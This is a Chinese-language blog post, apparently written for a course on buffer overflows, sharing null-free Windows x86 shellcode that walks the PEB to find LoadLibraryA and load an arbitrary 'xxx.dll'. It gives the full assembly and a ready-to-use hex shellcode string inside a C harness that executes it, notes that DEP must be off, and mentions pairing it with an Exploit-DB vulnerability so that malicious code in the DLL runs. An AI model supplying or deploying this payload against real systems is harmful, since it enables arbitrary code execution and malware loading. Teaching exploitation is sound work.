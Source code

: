 \-\-- layout: post title: Windows x86 LoadLibraryA
Shellcode（Null-Free） date: \'2017-09-29T10:48:00.000-07:00\' author:
聖豪馬 tags: - BOF - Shellcode - Windows - ASM modified\_time:
\'2017-09-29T10:48:10.554-07:00\' thumbnail:
https://2.bp.blogspot.com/-LTE2NzEEUP4/Wc6GatyXCGI/AAAAAAAAIYI/SKNP6\_axawANjkZuUuNF\_cO8H55aOTYwQCLcBGAs/s72-c/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2017-09-30%2B%25E4%25B8%258A%25E5%258D%25881.41.16.png
blogger\_id:
tag:blogger.com,1999:blog-1335849442109808564.post-6431850252610208826
blogger\_orig\_url:
http://helloadr.blogspot.com/2017/09/windows-x86-loadlibrarya-shellcodenull.html
\-\--

### murmur

因為部分課程緣故需要展示 Buffer Overflow 可以幹嘛，但是不想包太長的
Shellcode、單純 Demo 彈小算盤好像又太弱了XD。所以拿網路上別人寫好的
Shellcode 小改了一下，分享出來原始 Assembly Code
方便之後有需要的人可以做修改、開發自己的 Shellcode。\
\

#### Cheat Engine AutoASM 腳本

``` {.prettyprint}
// windows x86 LoadLibraryA("xxx.dll")
// author: aaaddress1@chroot.org
alloc(script, 1024)

script:
xor edx,edx
mov dl,30
mov edx,fs:[edx]
mov edx,[edx+0C]
mov edx,[edx+1C]
mov eax,[edx+08]
mov esi,[edx+20]
mov edx,[edx]
cmp byte ptr [esi+0C], 33 /* kernel'3'2.dll -> 0x33 */
db 75 f2 // jne -0x0d

mov    edi,eax //eax = handle of kernel32.dll
add    edi,DWORD PTR [eax+0x3c]
mov    edx,DWORD PTR [edi+0x78]
add    edx,eax
mov    edi,DWORD PTR [edx+0x20]
add    edi,eax
xor    ebp,ebp
mov    esi,DWORD PTR [edi+ebp*4]
add    esi,eax
inc    ebp
//esi = API name
cmp    DWORD PTR [esi],0x64616f4c
db 75 f2
cmp    DWORD PTR [esi+0x8],0x41797261
db 75 e9

mov    edi,DWORD PTR [edx+0x24]
add    edi,eax
mov    bp,WORD PTR [edi+ebp*2] //bp = index

mov    edi,DWORD PTR [edx+0x1c]
add    edi,eax // Export Table: uint32_t Address[]

mov    edi,[edi+ebp*4-04]
add    edi,eax // Address of LoadLibraryA = edi

push 0x7f6c6c64 // dll\x20
push 0x2e787878 // xxx.
xor dword ptr [esp+07],0x7f
push esp
call edi
```

### HEX Shellcode

<div>

當然大部分人應該沒那個需求要小改，\
純粹 Demo 的話可以參考下面我已經幫你轉好的十六進位 Shellcode
字串直接使用：\
\

``` {.prettyprint}
// LoadLibraryA Shellcode Null-Free
// Author: aaaddress1@chroot.org
int main(void) {
 
 char shellcode[] =
  "\x31\xD2\xB2\x30\x64\x8B\x12\x8B" \
  "\x52\x0C\x8B\x52\x1C\x8B\x42\x08" \
  "\x8B\x72\x20\x8B\x12\x80\x7E\x0C" \
  "\x33\x75\xF2\x8B\xF8\x03\x78\x3C" \
  "\x8B\x57\x78\x01\xC2\x8B\x7A\x20" \
  "\x01\xC7\x31\xED\x8B\x34\xAF\x01" \
  "\xC6\x45\x81\x3E\x4C\x6F\x61\x64" \
  "\x75\xF2\x81\x7E\x08\x61\x72\x79" \
  "\x41\x75\xE9\x8B\x7A\x24\x01\xC7" \
  "\x66\x8B\x2C\x6F\x8B\x7A\x1C\x01" \
  "\xC7\x8B\x7C\xAF\xFC\x01\xC7\x68" \
  "\x64\x6C\x6C\x7F\x68\x78\x78\x78" \
  "\x2E\x83\x74\x24\x07\x7F\x54\xFF" \
  "\xD7";
  
 printf("length: %i\n", strlen(shellcode));
 ((void(*)())shellcode)();
}
```

</div>

上面的程式碼存成 \*.cpp 拿個隨便編譯器跑起來會像下面這樣\
（喔對，記得 DEP 要關喔）\

<div>

::: {.separator style="clear: both; text-align: center;"}
[![](https://2.bp.blogspot.com/-LTE2NzEEUP4/Wc6GatyXCGI/AAAAAAAAIYI/SKNP6_axawANjkZuUuNF_cO8H55aOTYwQCLcBGAs/s320/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2017-09-30%2B%25E4%25B8%258A%25E5%258D%25881.41.16.png){width="311"
height="320"}](https://2.bp.blogspot.com/-LTE2NzEEUP4/Wc6GatyXCGI/AAAAAAAAIYI/SKNP6_axawANjkZuUuNF_cO8H55aOTYwQCLcBGAs/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2017-09-30%2B%25E4%25B8%258A%25E5%258D%25881.41.16.png)
:::

\

</div>

### 效果

\
底下是我拿 2016 隨便一個 Exploit-DB 上挖來的漏洞小改一下，大概像這樣XD\
Shellcode 觸發後會去載入 xxx.dll，就可以在 DLL 內塞髒東西跑起來啦。\

::: {.separator style="clear: both; text-align: center;"}
[![](https://4.bp.blogspot.com/-fjH061cLbrg/Wc6Bn4dHVhI/AAAAAAAAIX4/xOC4QvZOYXMU0sSjq-4jDliUzgzyVO1nQCLcBGAs/s320/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2017-09-30%2B%25E4%25B8%258A%25E5%258D%25881.23.00.png){width="320"
height="239"}](https://4.bp.blogspot.com/-fjH061cLbrg/Wc6Bn4dHVhI/AAAAAAAAIX4/xOC4QvZOYXMU0sSjq-4jDliUzgzyVO1nQCLcBGAs/s1600/%25E8%259E%25A2%25E5%25B9%2595%25E5%25BF%25AB%25E7%2585%25A7%2B2017-09-30%2B%25E4%25B8%258A%25E5%258D%25881.23.00.png)
:::

<div>

\

</div>
